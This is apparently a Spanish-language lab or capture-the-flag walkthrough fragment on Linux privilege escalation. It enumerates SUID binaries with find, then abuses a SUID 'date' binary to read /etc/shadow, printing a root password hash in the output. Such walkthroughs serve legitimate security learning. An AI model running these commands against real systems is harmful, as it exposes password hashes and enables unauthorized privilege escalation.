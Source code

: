 Si hacemos lo siguiente...

```shell
find / -type f -perm -4000 -ls 2>/dev/null
```

Info:

```
1546    108 ---Sr-xr-x   1 root     root       109408 Feb 28  2019 /usr/bin/date
    10735     24 -rwsr-xr-x   1 root     root        23288 Jan 15  2019 /usr/bin/pkexec
       56     64 -rwsr-xr-x   1 root     root        63736 Jul 27  2018 /usr/bin/passwd
       52     56 -rwsr-xr-x   1 root     root        54096 Jul 27  2018 /usr/bin/chfn
       53     44 -rwsr-xr-x   1 root     root        44528 Jul 27  2018 /usr/bin/chsh
     3910     36 -rwsr-xr-x   1 root     root        34888 Jan 10  2019 /usr/bin/umount
     3436     44 -rwsr-xr-x   1 root     root        44440 Jul 27  2018 /usr/bin/newgrp
    10841     36 -rwsr-xr-x   1 root     root        34896 Apr 22  2020 /usr/bin/fusermount
       55     84 -rwsr-xr-x   1 root     root        84016 Jul 27  2018 /usr/bin/gpasswd
     3908     52 -rwsr-xr-x   1 root     root        51280 Jan 10  2019 /usr/bin/mount
     3583     64 -rwsr-xr-x   1 root     root        63568 Jan 10  2019 /usr/bin/su
    10852    152 -rwsr-xr-x   1 root     root       154352 Mar 21  2019 /usr/bin/ntfs-3g
    17819     56 -rwsr-xr-x   1 root     root        55400 Mar  6  2019 /usr/bin/bwrap
    58037    156 -rwsr-xr-x   1 root     root       157192 Jan 20  2021 /usr/bin/sudo
   407660     16 -rwsr-sr-x   1 root     root        14608 Dec  1  2020 /usr/lib/xorg/Xorg.wrap
    13568    428 -rwsr-xr-x   1 root     root       436552 Jan 31  2020 /usr/lib/openssh/ssh-keysign
   150325     20 -rwsr-xr-x   1 root     root        18424 Sep  8  2018 /usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
   135600     12 -rwsr-xr-x   1 root     root        10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
   138948     20 -rwsr-xr-x   1 root     root        18888 Jan 15  2019 /usr/lib/policykit-1/polkit-agent-helper-1
   138929     52 -rwsr-xr--   1 root     messagebus    51184 Jul  5  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    57715    380 -rwsr-xr--   1 root     dip          386792 Feb 20  2020 /usr/sbin/pppd
```

Veremos que podemos ejecutar `date` como `root` pero solo nos sirve para leer archivos, por lo que haremos lo siguiente...

```shell
date -f /etc/shadow
```

Info:

```
date: invalid date 'root:$6$N6p.dpWhPYXSXC9U$8EraUiQ5DtMF5ov2ZbnY8DoLK1liRukqhTnTTK67MQ.tgpglkVX/I9P1aYjNeO/cwjQk9lJ/ABd9YLTMeMSn3/:18721:0:99999:7:::'
date: invalid date 'daemon:*:18714:0:99999:7:::'
date: invalid date 'bin:*:18714:0:99999:7:::'
date: invalid date 'sys:*:18714:0:99999:7:::'
date: invalid date 'sync:*:18714:0:99999:7:::'
date: invalid date 'games:*:18714:0:99999:7:::'
date: invalid date 'man:*:18714:0:99999:7:::'
date: invalid date 'lp:*:18714:0:99999:7:::'
date: invalid date 'mail:*:18714:0:99999:7:::'
date: invalid date 'news:*:18714:0:99999:7:::'
date: invalid date 'uucp:*:18714:0:99999:7:::'
date: invalid date 'proxy:*:18714:0:99999:7:::'
date: invalid date 'www-data:*:18714:0:99999:7:::'
date: invalid date 'backup:*:18714:0:99999:7:::'
date: invalid date 'list:*:18714:0:99999:7:::'
date: invalid date 'irc:*:18714:0:99999:7:::'
date: invalid date 'gnats:*:18714:0:99999:7:::'
date: invalid date 'nobody:*:18714:0:99999:7:::'
date: invalid date '_apt:*:18714:0:99999:7:::'
date: invalid date 'systemd-timesync:*:18714:0:99999:7:::'
```